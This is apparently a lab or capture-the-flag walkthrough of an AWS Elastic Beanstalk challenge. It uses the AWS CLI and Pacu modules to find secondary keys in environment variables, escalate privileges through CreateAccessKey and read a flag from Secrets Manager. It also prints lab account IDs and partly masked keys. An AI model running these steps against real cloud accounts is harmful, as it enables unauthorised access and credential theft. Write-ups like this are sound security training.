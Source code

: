 # Initial Access

### Credentials

```bash
initial_low_priv_credentials = Access Key: AKIAUR.......
Secret Key: /ocpu1....
```
### Enumeration
```bash
aws sts get-caller-identity --profile beanstalk
{
    "UserId": "AIDAURY6ZIC4OOO6J5V35",
    "Account": "313060311224",
    "Arn": "arn:aws:iam::313060311224:user/cgide9uo5os4u0_low_priv_user"
}
```
```bash
Pacu (beanstalk:imported-beanstalk) > whoami
{
  "UserName": "cgide9uo5os4u0_low_priv_user",
  "RoleName": null,
  "Arn": "arn:aws:iam::313060311224:user/cgide9uo5os4u0_low_priv_user",
  "AccountId": "313060311224",
  "UserId": "AIDAURY6ZIC4OOO6J5V35",
  "Roles": null,
  "Groups": [],
  "Policies": [],
  "AccessKeyId": "AKIAURY6ZIC4FKWDNDEO",
  "SecretAccessKey": "/ocpu1vt8gnsMHaCdGn8********************",
  "SessionToken": null,
  "KeyAlias": "imported-beanstalk",
  "PermissionsConfirmed": false,
  "Permissions": {
    "Allow": {},
    "Deny": {}
  }
}
```
- note beanstalk

After researching beanstalk I found this link:

https://rhinosecuritylabs.com/tools/new-pacu-module-enumerating-elastic-beanstalk/

Ran pacu, imported keys, and ran the elasticbeanstalk__enum module and found:

```bash
"Secrets": [
        {
            "OptionName": "SSHSourceRestriction",
            "Value": "tcp,22,22,0.0.0.0/0"
        },
        {
            "OptionName": "EnvironmentVariables",
            "Value": "SECONDARY_SECRET_KEY=uPt0xO9g.....,PYTHONPATH=/var/app/venv/staging-LQM1lest/bin,SECONDARY_ACCESS_KEY=AK....."
        },
        {
            "OptionName": "SECONDARY_ACCESS_KEY",
            "Value": "AKIAURY....."
        }
    ],
```
From there, I configured a new aws profile with the given access key and secret access key and verified my profile

```bash
aws sts get-caller-identity --profile secretbeans
{
    "UserId": "AIDAURY6ZIC4BGVSF5PN5",
    "Account": "313060311224",
    "Arn": "arn:aws:iam::313060311224:user/cgide9uo5os4u0_secondary_user"
}
```
I used pacu and ran the iam__enum_permissions module and used whoami to display permissions

```bash
Permissions": {
    "Allow": [
      "iam:GetUser",
      "iam:ListAttachedUserPolicies",
      "dynamodb:DescribeEndpoints",
      "sts:GetSessionToken",
      "sts:GetCallerIdentity",
      "iam:ListPolicies",
      "iam:ListRoles",
      "iam:GetUser",
      "iam:ListUsers",
      "iam:ListGroups"
    ],
```

From there I ran ```run iam__privesc_scan --scan-only``` on pacu and it revealed we can privilege escalate through CreateAccessKey

I then ran
```
run iam__privesc_scan --user-methods CreateAccessKey
```
and navigated to the secrets manager to retrive the flag






  
